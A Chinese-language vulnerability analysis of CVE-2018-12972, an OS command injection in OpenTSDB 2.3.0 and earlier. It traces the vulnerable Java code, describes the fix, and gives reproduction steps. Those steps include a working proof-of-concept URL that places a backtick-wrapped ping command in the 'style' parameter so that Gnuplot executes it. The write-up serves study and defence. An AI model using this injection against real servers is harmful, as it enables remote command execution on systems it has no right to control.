



# CVE-2018-12972 CWE-78 OpenTSDB RCE

## 漏洞背景

- **/q 接口**：OpenTSDB 中的 HTTP 的 API 接口，用于查询时间序列数据，支持多种参数以满足不同的查询需求。当请求图形输出时，OpenTSDB 会动态生成一个 `Gnuplot` 脚本，并调用 `Gnuplot` 程序来处理该脚本，生成相应的图表，以可视化展示查询结果。`/q` 接口还支持其他参数，以提供更灵活的查询功能，如`xrange` 和 `yrange`：设置 X 轴和 Y 轴的显示范围。
- **Gnuplot 脚本**：OpenTSDB 利用 `Gnuplot` 脚本，将存储的时间序列数据转换为可视化图表，帮助用户更有效地分析和理解数据趋势。

## 漏洞原理

该漏洞允许攻击者通过向`/q` URI发送特定参数（如`o`、`key`、`style`、`yrange`和`y2range`）执行任意操作系统命令，从而导致远程命令执行。由于OpenTSDB在处理这些参数时缺乏适当的输入验证，攻击者可以利用此漏洞在受影响的服务器上执行任意代码。

## 漏洞定位

1、在文件 **src\tsd\RpcManager.java** 的第 **251** 行，`initializeBuiltinRpcs` 方法用于初始化内置的 RPC（远程过程调用）接口。其中的第 **290** 行会根据 `enableUi` 的值判断是否启用了用户界面功能。如果 `enableUi` 为 `true`，则会将多个 HTTP 处理器添加到 `http` 映射中，其中包括将路径 `"q"` 映射到 `GraphHandler` 的实例。

```java
private void initializeBuiltinRpcs(final String mode,
        final ImmutableMap.Builder<String, TelnetRpc> telnet,
        final ImmutableMap.Builder<String, HttpRpc> http) {
    // ...
      if (enableUi) {
        // ...
        http.put("q", new GraphHandler());
        // ...
      }
    // ...
}
```

2、**处理URL请求**：在 **src/tsd/GraphHandler.java** 文件中，第 **109** 行，当用户通过 URL 提供参数并提交请求时，`GraphHandler` 类的带参数的 `execute` 方法会被调用。这个方法负责处理 HTTP 请求并生成响应。如果请求包含 `json`、`png` 或 `ascii` 参数，会调用 `doGraph` 方法来处理图表生成的逻辑。接下来跟踪解析查询参数的 `doGraph`函数。

```java
public void execute(final TSDB tsdb, final HttpQuery query) {
    if (!query.hasQueryStringParam("json")
        && !query.hasQueryStringParam("png")
        && !query.hasQueryStringParam("ascii")) {
      String uri = query.request().getUri();
      if (uri.length() < 4) {  // Shouldn't happen...
        uri = "/";             // But just in case, redirect.
      } else {
        uri = "/#" + uri.substring(3);  // Remove "/q?"
      }
      query.redirect(uri);
      return;
    }
    try {
      doGraph(tsdb, query);
    } catch (IOException e) {
      query.internalError(e);
    } catch (IllegalArgumentException e) {
      query.badRequest(e.getMessage());
    }
  }
```

3、在 **src/tsd/GraphHandler.java** 文件中，第 **135** 行，`doGraph`方法解析请求中的其他参数，如时间范围、数据查询等，其中的第 **208** 行调用了`setPlotParams`函数，是从查询字符串中提取指定的参数。之后会创建了一个`RunGnuplot`对象执行脚本文件。接下来分别分析`setPlotParams`函数、`RunGnuplot`对象。

```java
private void doGraph(final TSDB tsdb, final HttpQuery query)
    // ... ...
    setPlotParams(query, plot);
    // ... ...

    final RunGnuplot rungnuplot = new RunGnuplot(query, max_age, plot, basepath,
            aggregated_tags, npoints);
	// ... ...
  }
```

4、**提取指定的参数**：

（1）在 **src/tsd/GraphHandler.java** 文件中，第 **711** 行`setPlotParams`函数，其作用是从查询字符串中提取指定的参数。经过`popParam`函数处理一系列参数后，会有一部分参数经过了`stringify`，用于后续的 JSON 格式的转换。最后`plot.setParams(params)` 将这些参数应用到 `plot` 对象。接下来分别分析`popParam`、`stringify`和`plot.setParams(params)` 方法。

```java
 static void setPlotParams(final HttpQuery query, final Plot plot) {
    final HashMap<String, String> params = new HashMap<String, String>();
    final Map<String, List<String>> querystring = query.getQueryString();
    String value;
    if ((value = popParam(querystring, "yrange")) != null) {
      params.put("yrange", value);
    }
    if ((value = popParam(querystring, "y2range")) != null) {
      params.put("y2range", value);
    }
    if ((value = popParam(querystring, "ylabel")) != null) {
      params.put("ylabel", stringify(value));
    }
    if ((value = popParam(querystring, "y2label")) != null) {
      params.put("y2label", stringify(value));
    }
    if ((value = popParam(querystring, "yformat")) != null) {
      params.put("format y", stringify(value));
    }
    if ((value = popParam(querystring, "y2format")) != null) {
      params.put("format y2", stringify(value));
    }
    if ((value = popParam(querystring, "xformat")) != null) {
      params.put("format x", stringify(value));
    }
    if ((value = popParam(querystring, "ylog")) != null) {
      params.put("logscale y", "");
    }
    if ((value = popParam(querystring, "y2log")) != null) {
      params.put("logscale y2", "");
    }
    if ((value = popParam(querystring, "key")) != null) {
      params.put("key", value);
    }
    if ((value = popParam(querystring, "title")) != null) {
      params.put("title", stringify(value));
    }
    if ((value = popParam(querystring, "bgcolor")) != null) {
      params.put("bgcolor", value);
    }
    if ((value = popParam(querystring, "fgcolor")) != null) {
      params.put("fgcolor", value);
    }
    if ((value = popParam(querystring, "smooth")) != null) {
      params.put("smooth", value);
    }
    if ((value = popParam(querystring, "style")) != null) {
      params.put("style", value);
    }
    // This must remain after the previous `if' in order to properly override
    // any previous `key' parameter if a `nokey' parameter is given.
    if ((value = popParam(querystring, "nokey")) != null) {
      params.put("key", null);
    }
     plot.setParams(params);
 }
```

（2）在 **src/tsd/GraphHandler.java** 文件中，第 **674** 行`popParam`方法用于从查询参数映射（`querystring`）中移除指定名称的参数（`param`），并返回该参数的最后一个值。但是未处理参数中的特殊字符。

```java
/**
   * Pops out of the query string the given parameter.
   * @param querystring The query string.
   * @param param The name of the parameter to pop out.
   * @return {@code null} if the parameter wasn't passed, otherwise the
   * value of the last occurrence of the parameter.
   */
  private static String popParam(final Map<String, List<String>> querystring,
                                     final String param) {
    final List<String> params = querystring.remove(param);
    if (params == null) {
      return null;
    }
    return params.get(params.size() - 1);
  }
```

（3）在 **src/tsd/GraphHandler.java** 文件中，第 **659** 行`stringify`函数将输入字符串格式化并转义，其中第 662 行调用了`HttpQuery.escapeJson`方法继续处理。

```java
  /**
   * Formats and quotes the given string so it's a suitable Gnuplot string.
   * @param s The string to stringify.
   * @return A string suitable for use as a literal string in Gnuplot.
   */
  private static String stringify(final String s) {
    final StringBuilder buf = new StringBuilder(1 + s.length() + 1);
    buf.append('"');
    HttpQuery.escapeJson(s, buf);  // Abusing this function gets the job done.
    buf.append('"');
    return buf.toString();
  }
```

（4）在 **src\tsd\HttpQuery.java** 文件，第 **478** 行`escapeJson`方法用于将输入字符串 `s` 转义为符合 JSON 格式的字符串，对特定的控制字符（如双引号、反斜杠、回车、换行等）进行转义处理。

```java
 /**
   * Escapes a string appropriately to be a valid in JSON.
   * Valid JSON strings are defined in RFC 4627, Section 2.5.
   * @param s The string to escape, which is assumed to be in .
   * @param buf The buffer into which to write the escaped string.
   */
  static void escapeJson(final String s, final StringBuilder buf) {
    final int length = s.length();
    int extra = 0;
    // First count how many extra chars we'll need, if any.
    for (int i = 0; i < length; i++) {
      final char c = s.charAt(i);
      switch (c) {
        case '"':
        case '\\':
        case '\b':
        case '\f':
        case '\n':
        case '\r':
        case '\t':
          extra++;
          continue;
      }
      if (c < 0x001F) {
        extra += 4;
      }
    }
    if (extra == 0) {
      buf.append(s);  // Nothing to escape.
      return;
    }
    buf.ensureCapacity(buf.length() + length + extra);
    for (int i = 0; i < length; i++) {
      final char c = s.charAt(i);
      switch (c) {
        case '"':  buf.append('\\').append('"');  continue;
        case '\\': buf.append('\\').append('\\'); continue;
        case '\b': buf.append('\\').append('b');  continue;
        case '\f': buf.append('\\').append('f');  continue;
        case '\n': buf.append('\\').append('n');  continue;
        case '\r': buf.append('\\').append('r');  continue;
        case '\t': buf.append('\\').append('t');  continue;
      }
      if (c < 0x001F) {
        buf.append('\\').append('u').append('0').append('0')
          .append((char) Const.HEX[(c >>> 4) & 0x0F])
          .append((char) Const.HEX[c & 0x0F]);
      } else {
        buf.append(c);
      }
    }
  }
```

（5） 最后跟踪`plot.setParams`方法，在**src/graph/Plot.java** 文件，第**137** 行 setParams 函数。在 `setParams` 方法中，传入的 `params` `params` 映射中的每个键值对都会被提取出来，并存储到 `this.params` 中。

```java
 public void setParams(final Map<String, String> params) {
    // check "format y" and "format y2"
    String[] y_format_keys = {"format y", "format y2"};
    for(String k : y_format_keys){
      if(params.containsKey(k)){
        params.put(k, URLDecoder.decode(params.get(k)));
      }
    }
    this.params = params;
  }
```

所以，经过`stringify`的参数都会被双引号包含且里面的特殊字符都会被转义，难以后续逃逸使用。但是有部分参数没有被转义，如`yrange`，`y2range`，`key`，`style`，而`Gnuplot`中允许使用<u>反引号</u>来执行`sh`命令，我们可以在`Gnuplot`脚本文件中写入反引号包裹的命令，在执行`Gnuplot`脚本文件时我们写入的命令也会被执行，这就是漏洞点所在。

5、继续第4步，在完成参数设置后，创建了一个`RunGnuplot`对象，在 **src/tsd/GraphHandler.java** 文件中，第 **757** 行，将前面解析到的参数即对应的写入到了`plot`属性中，之后会将参数写入`Gnuplot`脚本文件中并执行，我们通过传参写入的恶意代码也会在此时执行。

```java
private static final class RunGnuplot implements Runnable {
   private final HttpQuery query;
   private final int max_age;
   private final Plot plot;
   private final String basepath;
   private final HashSet<String>[] aggregated_tags;
   private final int npoints;
   public RunGnuplot(final HttpQuery query, 
                     final int max_age,
                     final Plot plot,
                     final String basepath,
                     final HashSet<String>[] aggregated_tags,
                     final int npoints) {
     // ... 
     this.plot = plot;
     if (IS_WINDOWS)
       this.basepath = basepath.replace("\\", "\\\\").replace("/", "\\\\");
     else
       this.basepath = basepath;
     // ...
   }
```


**修复：**

加入了检查变量中是否包含反引号或其对应的编码形式的代码。如果存在，则抛出 `BadRequestException` 异常，提示参数 `param` 中包含反引号。

## 影响版本

OpenTSDB <= 2.3.0

## 环境搭建

启动docker环境，OpenTSDB 版本为2.3.0



## 漏洞复现

1、由于在利用漏洞时需要知道一个不为空的`metric`的名字，通过以下命令查看`metric`列表

```bash
curl "http://localhost:4242/api/suggest?type=metrics&q=&max=10"; echo
```

2、若为空，通过以下命令，利用API创建一个名为`sys.cpu.nice`的metric并添加一条记录；如果目标`OpenTSDB`存在`metric`，且不为空，则无需执行

```bash
curl -X POST -d '[{"metric": "sys.cpu.nice", "timestamp": 1676984400, "value": 50, "tags": {"host": "server1"}}]' http://localhost:4242/api/put; echo
```



3、访问如下url，可以看到返回了`ping 127.0.0.1`的结果

```http
http://localhost:4242/q?start=2000/10/21-00:00:00&m=sum:sys.cpu.nice&yrange=&o=&ylabel=&wxh=1516x644&style=`ping%20-c%2010%20127.0.0.1`&baba=lala&grid=t&json
```



## POC分析

```http
http://localhost:4242/q?start=2000/10/21-00:00:00&m=sum:sys.cpu.nice&yrange=&o=&ylabel=&wxh=1516x644&style=`ping%20-c%2010%20127.0.0.1`&baba=lala&grid=t&json
```

`style` 参数被设置为 

```
`ping%20-c%2010%20127.0.0.1`
```

该参数经过 URL 编码，解码后，`yrange` 的值为 

```
`ping -c 10 127.0.0.1`
```

并写入到`Gnuplot`脚本文件中，由于反引号的存在，到执行`Gnuplot`脚本是会将反引号中的内容当成`sh`命令执行，成功实现RCE

## 参考链接

[OpenTSDB远程命令执行漏洞分析 -【CVE-2018-12972】 | Chybeta](https://chybeta.github.io/2018/08/11/OpenTSDB远程命令执行漏洞分析-【CVE-2018-12972】/)

[OpenTSDB vulnerable to OS Command Injection · CVE-2018-12972 · GitHub Advisory Database](https://github.com/advisories/GHSA-cx2v-jrjc-g54w)

[Many parameters to the /q URL can execute command, including o, key, style, yrange and its json input, y2range and its json input. · Issue #1239 · OpenTSDB/opentsdb](https://github.com/OpenTSDB/opentsdb/issues/1239)
